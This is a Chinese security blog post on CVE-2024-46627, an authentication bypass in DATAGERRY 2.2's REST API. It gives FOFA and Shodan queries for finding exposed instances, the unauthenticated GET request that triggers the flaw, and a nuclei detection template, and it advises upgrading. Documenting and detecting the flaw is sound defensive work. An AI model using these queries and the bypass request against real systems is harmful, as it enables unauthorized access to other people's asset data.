 #  CVE-2024-46627   
原创 fgz  AI与网安   2024-10-10 21:08  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
DATAGERRY REST API 身份验证绕过漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
DATAGERRY 2.2版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayZEcvDCD9ZyvQsiazHy93onsEwibwTxOpUdOlibggicpUTe1zK33DonibzZg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
DATAGERRY是DATAGerry开源的一个开源 CMDB 和资产管理工具。  
DATAGERRY 2.2版本存在安全漏洞，该漏洞源于存在不正确权限改造，允许攻击者通过精心设计的Web请求绕过权限验证而执行任意命令。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="datagerry"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayhLsKQfddG1aAiaaWeqHL1rs1icUYPACYph0ibdibHtPw2Oq7HH6QnPbgaQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
使用浏览器请求  
```
http://x.x.x.x/rest/users/1/settings/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayeAddRKdNr6NiaDNnbicSibT9iapIMV75HbdicG8feHLBTytTVM7lVIdT0icw/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件来自nuclei官网，内容如下  
```
id: CVE-2024-46627

info:
  name: DATAGERRY - REST API Auth Bypass
  author: gy741
  severity: critical
  description: |
    Incorrect access control in BECN DATAGERRY v2.2 allows attackers to execute arbitrary commands via crafted web requests.
  impact: |
    Allows unauthorized access to REST API
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2024-46627
    - https://daly.wtf/cve-2024-46627-incorrect-access-control-in-becn-datagerry-v2-2-allows-attackers-to-execute-arbitrary-commands-via-crafted-web-requests/
    - https://datagerry.com/
    - https://github.com/DATAGerry/
    - https://github.com/d4lyw/CVE-2024-46627
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cve-id: CVE-2024-46627
    cwe-id: CWE-284
    epss-score: 0.00045
    epss-percentile: 0.16328
  metadata:
    verified: true
    max-request: 1
    vendor: becon
    product: datagerry
    shodan-query: http.title:"datagerry"
  tags: cve,cve2024,becon,datagerry,unauth,auth-bypass

http:
  - method: GET
    path:
      - '{{BaseURL}}/rest/users/1/settings/'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"response_type":'
          - '"model":'
          - '"time":'
        condition: and

      - type: word
        part: content_type
        words:
          - "application/json"
# digest: 4a0a00473045022040420efc711ffd5727fa72189da9f4e2830a0a1bd247edefb9c4392206bdcb5f022100c7c5849fa2e4cdc7240166da0a6077f3c93557cbded880103e8580c784fdb3f1:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  

